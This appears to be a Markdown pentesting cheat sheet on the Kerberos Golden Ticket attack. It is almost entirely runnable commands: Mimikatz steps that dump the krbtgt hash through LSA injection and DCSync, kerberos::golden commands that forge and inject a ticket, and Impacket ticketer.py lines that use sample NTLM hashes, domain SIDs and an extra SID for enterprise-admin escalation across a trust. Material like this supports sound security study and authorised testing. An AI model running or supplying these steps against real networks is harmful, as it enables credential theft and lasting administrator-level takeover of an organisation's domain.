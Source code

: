 # Golden Ticket attack
Requires krbtgt password or NTLM hash, to forge a TGT.

once you have hash for krbtgt
Rewrite TGTs

impacket-ticketer

Requirements:
* KRBTGT hash

---

## Get info - Mimikatz
```
lsadump::lsa /inject /name:krbtgt
lsadump::lsa /patch
lsadump::trust /patch
lsadump::dcsync /user:krbtgt
```

## Forge a Golden ticket - Mimikatz
```
kerberos::purge
kerberos::golden /user:evil /domain:pentestlab.local /sid:S-1-5-21-3737340914-2019594255-2413685307 /krbtgt:d125e4f69c851529045ec95ca80fa37e /ticket:evil.tck /ptt
kerberos::tgt
```

## Alternatively you can use ticketer from Impacket
`ticketer.py -nthash a577fcf16cfef780a2ceb343ec39a0d9 -domain-sid S-1-5-21-2972629792-1506071460-1188933728 -domain amity.local mbrody-da`
`ticketer.py -nthash HASHKRBTGT -domain-sid SID_DOMAIN_A -domain DEV Administrator -extra-sid SID_DOMAIN_B_ENTERPRISE_519`
`ticketer.py -nthash e65b41757ea496c2c60e82c05ba8b373 -domain-sid S-1-5-21-354401377-2576014548-1758765946 -domain DEV Administrator -extra-sid S-1-5-21-2992845451-2057077057-2526624608-519`